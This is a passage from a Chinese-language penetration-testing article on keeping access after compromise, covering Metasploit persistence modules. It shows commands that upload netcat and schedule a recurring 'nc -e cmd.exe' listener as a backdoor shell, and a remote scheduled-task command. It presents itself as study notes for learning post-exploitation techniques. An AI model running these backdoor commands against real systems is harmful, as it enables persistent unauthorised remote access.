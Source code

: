 > 原文链接: https://www.anquanke.com//post/id/171891 


# 渗透之权限维持杂谈


                                阅读量   
                                **350127**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">1</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p4.ssl.qhimg.com/t0108def0b7e3f2653a.jpg)](https://p4.ssl.qhimg.com/t0108def0b7e3f2653a.jpg)

> 这是一篇介绍渗透测试后阶段权限维持的文章，里面包括了当今服务器的两大主流操作系统linux和windows的相关维权技术。全文秉着学习的思想做个摘录。

## 0x01 MSF

### <a class="reference-link" name="persistence"></a>persistence

> msf内置的后渗透权限维持工具persistence

[![](https://p2.ssl.qhimg.com/t0179234ffee75f4c00.png)](https://p2.ssl.qhimg.com/t0179234ffee75f4c00.png)

### <a class="reference-link" name="Metsvc"></a>Metsvc

它是通过在已经获得shell的目标主机上开启了一个服务来提供后门的功能。<br>`run Metsvc -h`

### <a class="reference-link" name="Scheduleme%20&amp;%20Schtasksabuse"></a>Scheduleme &amp; Schtasksabuse

msf中自动利用计划任务的后门程序，后面会聊到linux和windows平台的计划任务。

```
run scheduleme -h
# 例子：上传nc并创建计划任务每一分钟执行一次 'nc -e cmd.exe -L -p 8080'
run scheduleme -m 1 -e /tmp/nc.exe -o "-e cmd.exe -L -p 8080" 

run Schtasksabuse -h
# 例子：每隔4秒执行一次calc.exe 
run schtasksabuse -t 192.168.2.7 -c "cmd /c calc.exe" -d 4
```

### <a class="reference-link" name="Mof_ps_persist"></a>Mof_ps_persist
